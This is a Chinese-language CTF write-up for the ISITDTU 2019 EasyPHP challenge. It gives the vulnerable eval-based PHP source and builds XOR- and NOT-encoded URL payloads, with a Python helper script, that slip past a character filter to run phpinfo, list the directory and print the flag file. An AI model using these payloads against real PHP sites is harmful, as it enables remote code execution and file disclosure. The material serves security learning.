


# ISITDTU2019-EasyPHP

源码

```
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

很明显要我们进行RCE

需要绕过两个if正则判断

**第一个if**

```
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
```

匹配的字符范围和特殊字符：

- [\x00- 0-9]：匹配 ASCII 控制字符和数字 0-9。
- \'"：匹配单引号和双引号。
- $&.,|[{_defgops\x7F]：匹配特定字符集合，包括 $, &, ., ,, |, [, {, _, d, e, f, g, o, p, s 和 ASCII 值为 \x7F 的字符。

---

**第二个if**

```
strlen(count_chars(strtolower($_), 0x3)) > 0xd
```

这段代码的意思是传入的字符种类不能超过0xd即13种

---

先试试取反

```
/?_=(~%8F%97%8F%96%91%99%90)();   # phpinfo();
```

或者异或

```
<?php
$s = urlencode("phpinfo" ^ urldecode("%ff%ff%ff%ff%ff%ff%ff"));
echo "((".$s.")^("."%ff%ff%ff%ff%ff%ff%ff))();";

# ((%8F%97%8F%96%91%99%90)^(%ff%ff%ff%ff%ff%ff%ff))();
```

发现能够执行phpinfo()



查看禁用函数



把一些常用的全部过滤了，但是我们可以使用`print_r`、`scandir()`两个函数读取目录，再使用`show_source()`读取文件

```
print_r(scandir('.'))
    
(%8F%8D%96%91%8B%A0%8D^%ff%ff%ff%ff%ff%ff%ff)((%8C%9C%9E%91%9B%96%8D^%ff%ff%ff%ff%ff%ff%ff)((%D1^%ff)))
```

我们测一下用了多少字符：

```
<?php
$s = '(%8F%8D%96%91%8B%A0%8D^%ff%ff%ff%ff%ff%ff%ff)((%8C%9C%9E%91%9B%96%8D^%ff%ff%ff%ff%ff%ff%ff)((%D1^%ff)))';
echo strlen(count_chars($s,3));

# 16
```

但是发现字符种类数超了

总共16个字符

我们需要控制在13个以内，除了`();^` 就只剩下了9个字符

需要减少字符

减少字符的原理就是**要找到可以替换的，即在内部可以互相异或出来的**

替换字符脚本：

```
def en(s):
    return hex(ord(s) ^ 0xff)[2:]


p = list(set('printrscandir'))
for i in p:
    for j in p:
        for k in p:
            for m in p:
                if ord(j) ^ ord(k) ^ ord(m) == ord(i):
                    if(j == k or j == m or m == k):
                        continue
                    else:
                        print(i+'=='+j + '^' + k + '^'+m, end='\t')
                        print(
                            '{:0>2}  =>  ["{:0>2}","{:0>2}","{:0>2}"]'.format(
                                en(i), en(j), en(k), en(m)))
                        break
```

这段代码就是找出通过三个字符能异或构造出字符串中一个字符的代码，然后输出他们与`%ff`异或之后的值

```
%9e  =  %9c ^ %8d ^ %8f
a = %9e ^ %ff  =  %9c ^ %8d ^ %8f ^ %ff
```

我们需要挑选出字符串里面一些出现比较少的字符串，替换为3个字符的异或，例如：

选`t` ，`t==s^i^n 8b => ["8c","96","91"]`

```
t = \x8B ^ \xFF
变为
t = \x8c ^ \x96 ^ \x91 ^ \xff
```

我们按照这个思路，批量替换一下字符，让其长度小于13

我们寻找几个被代替的字符：

```
a = c^p^r
d = s^c^t
n = i^s^t


c = %9C
p = %8F
r = %8D
s = %8C
t = %8B
i = %96
```

于是通过这些来代替

```
print_r(scandir('.'))
    
(%8F%8D%96%91%8B%A0%8D^%ff%ff%ff%ff%ff%ff%ff)((%8C%9C%9E%91%9B%96%8D^%ff%ff%ff%ff%ff%ff%ff)((%D1^%ff)))
```

替代后：将`a n d` 替换

```
print_r = (%8F%8D%96%96%8B%A0%8D^%ff%ff%ff%ff%ff%ff%ff^%ff%ff%ff%8c%ff%ff%ff^%ff%ff%ff%8b%ff%ff%ff)

scandir = (%8C%9C%9C%96%8C%96%8D^%ff%ff%ff%ff%ff%ff%ff^%ff%ff%8F%8B%9C%ff%ff^%ff%ff%8D%8C%8B%ff%ff)
 
. = (%D1^%ff)
```

所以`print_r(scandir('.'))`：

```
((%8f%8d%96%96%8b%a0%8d)^(%ff%ff%ff%ff%ff%ff%ff)^(%ff%ff%ff%8c%ff%ff%ff)^(%ff%ff%ff%8b%ff%ff%ff))(((%8c%9c%9c%96%8c%96%8d)^(%ff%ff%ff%ff%ff%ff%ff)^(%ff%ff%8f%8c%9c%ff%ff)^(%ff%ff%8d%8b%8b%ff%ff))(%d1^%ff));
```

查看到flag文件在数组最后的位置，使用end()获得数组最后一个值来读取，然后配合show_source函数读取

```
show_source(end(scandir('.')))

?_=((%8d%9c%97%a0%88%8d%97%8d%9c%a0%a0)^(%9a%97%9b%88%a0%9a%9b%9b%8d%9c%9a)^(%9b%9c%9c%a0%88%9b%9c%9c%9c%a0%a0)^(%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff))(((%a0%97%8d)^(%9a%9a%9b)^(%a0%9c%8d)^(%ff%ff%ff))(((%8d%a0%88%97%8d%9b%9c)^(%9a%9c%8d%9a%9b%9a%8d)^(%9b%a0%9b%9c%8d%97%9c)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff)));
```


